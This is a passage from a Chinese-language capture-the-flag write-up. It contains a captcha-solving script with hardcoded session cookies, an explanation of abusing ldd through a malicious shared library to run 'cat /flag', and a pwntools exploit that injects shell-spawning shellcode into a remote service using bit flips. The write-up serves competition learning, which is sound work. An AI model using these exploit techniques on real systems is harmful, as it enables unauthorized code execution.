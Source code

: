 ```python


headers = {'cookie': 'session=eyJ0b2tlbiI6IjQ2NzpNRU1DSUdmdFZYZnhtRGJZU2pZYWhPZDZqOFA1NWZ1L3AvQW91bVlIYmt3b0xPa2dBaDljQ2ZyL2ZPd2NwNXg0V09WTm5NZVZxMG04QzFLM1hYNWpTSmdYN1htYiJ9.X52Umg.NhmFd1ir4dSIJ5C_KHSu7Qchjjc; PHPSESSID=ts0d4m1h0oh17td9t6oler138r'}

while True:
	s = requests.get('http://202.38.93.111:10150/captcha_shuffled.bmp', headers=headers).content
	open('tmp.bmp', 'wb').write(s)
	s = chk(Image.open('tmp.bmp'))
	print(s)
	param = {}
	for i in range(62):
		param['r_%s' % alphabet[i]] = int(round(float(s[i])))

	r = requests.get('http://202.38.93.111:10150/result', params=param, headers=headers)
	if '请重新尝试' in r.text:
		continue
	print(r.text)
	break
```

## 动态链接库检查器

搜索 `ldd arbitrary code execution` 可以搜到两个博客： https://catonmat.net/ldd-arbitrary-code-execution 和 http://klamp.works/2016/04/15/code-exec-ldd.html，但是他们的 ldd 版本都比较老，题目中的 ldd 版本已经不能再指定任意 interpreter。

又经过一番搜索，搜到了 https://sourceware.org/bugzilla/show_bug.cgi?id=22851。这个就直接可以用。把执行的命令改成 `cat /flag`，然后 `make evil`，再提交 libevil.so 即可。

## 超精准的宇宙射线模拟器

可以翻转一个 bit。动态调试，发现 exit 的地址被改成了 401070，而 401170 是个 ret，于是可以先把这边改掉。

运行时发现有一个 rwx 的段，而 401570 在其中，所以可以在里面写 shellcode，最后跳过去执行。

```python
from pwn import *

context.arch='amd64'
context.log_level='debug'

r=remote('202.38.93.111',10231)
r.recvuntil('Please input your token: ')
r.send('xxx:xxx\n')

def flip(x,y):
	r.recvuntil('Where do you want to flip?')
	r.send(hex(x)+' '+str(y)+'\n')

def write(pos,old,new):
	for i in range(8):
		if (old^new)>>i&1:
			flip(pos,i)

flip(0x404039,0)

shellcode=asm(shellcraft.sh())
target=0x401570
for i in range(len(shellcode)):
	write(target+i,0,shellcode[i])

flip(0x404039,2)

```